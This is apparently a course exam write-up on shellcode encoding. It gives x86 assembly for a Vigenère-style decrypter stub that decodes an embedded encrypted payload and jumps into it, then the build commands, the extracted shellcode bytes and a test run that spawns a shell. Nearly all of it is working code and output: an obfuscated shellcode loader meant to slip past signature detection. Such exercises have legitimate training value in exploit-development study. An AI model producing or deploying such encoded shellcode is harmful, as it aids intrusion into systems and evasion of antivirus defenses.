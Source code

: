 Using the xor decoder example from the course, a decrypter can easily be done by using each characters from the key one by one. This method has the incovenience to increase the decoder stub.

The important think to keep in mind, is to compile a ELF where the .text section is writable in order to test the shellcode.

```ASM
global _start

section .text
_start:
	jmp short call_decrypter

decrypter:
	pop esi
	xor ecx, ecx
	mov cl, 5 ; 35/8 = 4.375

decrypte:
	add byte [esi], 0x53
	inc esi
	add byte [esi], 0x45
	inc esi
	add byte [esi], 0x43
	inc esi
	add byte [esi], 0x55
	inc esi
	add byte [esi], 0x52
	inc esi
	add byte [esi], 0x49
	inc esi
	add byte [esi], 0x54
	inc esi
	add byte [esi], 0x59
	inc esi
	loop decrypte

	jmp short Shellcode


call_decrypter:
	call decrypter
	Shellcode: db 0xde,0x7b,0x0d,0x13,0xdd,0xe6,0x1f,0x0f,0x15,0xea,0x1f,0x14,0x1c,0x40,0x8f,0xf7,0x36,0x9d,0x10,0x34,0x8f,0x67,0xb7,0x74,0x2d
```

Lets test this shellcode

```
cervoise@slae:~$ nasm -f elf32 vigenere-decrypter-nonull.nasm
cervoise@slae:~$ ld -N -z execstack -o vigenere-decrypter-nonull vigenere-decrypter-nonull.o
cervoise@slae:~$ bash ~/exam/get-shellcode.sh vigenere-decrypter-nonull
"\xeb\x29\x5e\x31\xc9\xb1\x05\x80\x06\x53\x46\x80\x06\x45\x46\x80\x06\x43\x46\x80\x06\x55\x46\x80\x06\x52\x46\x80\x06\x49\x46\x80\x06\x54\x46\x80\x06\x59\x46\xe2\xde\xeb\x05\xe8\xd2\xff\xff\xff\xde\x7b\x0d\x13\xdd\xe6\x1f\x0f\x15\xea\x1f\x14\x1c\x40\x8f\xf7\x36\x9d\x10\x34\x8f\x67\xb7\x74\x2d"
cervoise@slae:~$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
cervoise@slae:~$ ./shellcode 
Shellcode Length:  73
$ id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ exit

```

